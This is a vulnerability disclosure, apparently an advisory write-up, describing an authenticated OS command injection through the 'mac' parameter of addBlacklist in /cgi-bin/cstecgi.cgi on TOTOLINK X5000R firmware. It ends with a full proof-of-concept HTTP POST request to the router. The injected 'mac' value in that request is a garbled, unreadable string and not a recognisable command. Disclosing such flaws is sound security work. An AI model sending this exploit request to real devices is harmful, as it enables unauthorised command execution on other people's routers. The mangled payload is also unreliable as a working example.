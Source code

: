 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `addBlacklist`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `addBlacklist` (at 0x4201cc) of binary /cgi-bin/cstecgi.cgi. The parameter `mac` is passed to `uci_add_List` without any check.
![addBlacklist](image.png)
uci_add_List passes the parameter `mac` as the fourth argument, which is in libcscommon.so.It can be observed that uci_add_List calls snprintf to format our param_4 into the string "uci -c %s add_list %s.%s.%s=\"%s\ ..." and passes the string to the CsteSystem function,which will eventually be called by execv.
![uci_set_str](image-1.png)
![uci_set_str2](image-2.png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 189
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "addBlacklist", "mac": ";wzq^e^a\\aaeaa]aca\\caa]dadaacaaea]^de^a``aa^aa_e]a_bvzoaaca`a`]`aaa`c_a_ea]ae\\caacdaaaba_aaaaa^a_\\aawznwyps~qw|lx_caaaaaaa\\aaa_e`cb\\aaea^aaaeadaaaacdaaab_a\\acab"}
```

![alt text](image-3.png)
